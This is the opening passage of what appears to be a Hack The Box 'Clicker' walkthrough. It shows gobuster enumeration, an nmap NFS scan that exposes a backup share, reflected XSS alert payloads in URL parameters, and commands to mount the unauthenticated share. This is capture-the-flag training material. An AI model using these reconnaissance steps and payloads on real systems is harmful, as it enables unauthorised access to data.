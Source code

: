 # USER + ROOT

```bash
gobuster dir -u http://clicker.htb -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt -t 10 -k 
```

Some files found but we have the source code so it's usless continuing enumeration:

```bash
sudo nmap 10.10.11.232 --script='nfs-ls,nfs-showmount,nfs-statfs'
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 11:28 CET
Nmap scan report for clicker.htb (10.10.11.232)
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
| nfs-statfs: 
|   Filesystem    1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /mnt/backups  6053440.0  3258384.0  2466152.0  57%   16.0T        32000
| nfs-showmount: 
|_  /mnt/backups *
| nfs-ls: Volume /mnt/backups
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID    GID    SIZE     TIME                 FILENAME
| rwxr-xr-x   65534  65534  4096     2023-09-05T19:19:10  .
| ??????????  ?      ?      ?        ?                    ..
| rw-r--r--   0      0      2284115  2023-09-01T20:27:06  clicker.htb_backup.zip
|_
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```

XSSes, in message errors, will them be useful?


```
http://clicker.htb/login.php?err=%3Cimg%20src=x%20onerror=alert`1`%3E

or once logged in 

http://clicker.htb/index.php?msg=%3Cimg%20src=x%20onerror=alert`1`%3E
```

Spiler: `No`

Let's get back to our nmap scan for `nfs`.

`nfs` is a sharing folder protocol just similar to samba.
We can mount has a volume since it does not requires password and we can investicate its content.

```
sudo mkdir /mnt/clicker_htb
sudo mount -t nfs -o vers=3 10.10.11.232:/mnt/backups/ /mnt/clicker_htb
```

